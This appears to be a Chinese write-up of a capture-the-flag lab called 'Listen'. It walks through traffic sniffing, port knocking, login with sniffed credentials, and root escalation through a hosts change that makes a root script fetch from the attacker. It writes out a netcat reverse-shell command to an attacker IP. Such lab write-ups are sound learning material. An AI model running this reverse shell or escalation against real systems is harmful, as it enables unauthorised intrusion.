








# Listen

## 流量监听

`fscan`和`nmap`扫描没什么思路，看了下`wp`，说是需要用`wireshark`监听，使用`wireshark`监听后



## knock端口

说是使用`knock`敲击`1337`端口，然后`80`端口就打开了



在源码发现`leo`的`hash`，但是用`rockyou`没爆出来，但是在`wireshark`发现了类似账号密码，尝试登录



## /dev/pts

使用`silence/listentome`登录成功



这个`/dev/pts/4`代表`ssh`连接`4`次，不知道为啥我的在第`5`个给了



登录`listen`



## hosts修改

发现`listentome.sh`是`root`权限，可以修改`host`使`listen`为攻击机`ip`



在攻击机的`ihearyou.sh`里面写入反弹`shell`的命令

```bash
echo "nc 192.168.1.92 9999 -c /usr/bin/bash" > ihearyou.sh
```

然后开启`web`服务并使用`80`端口

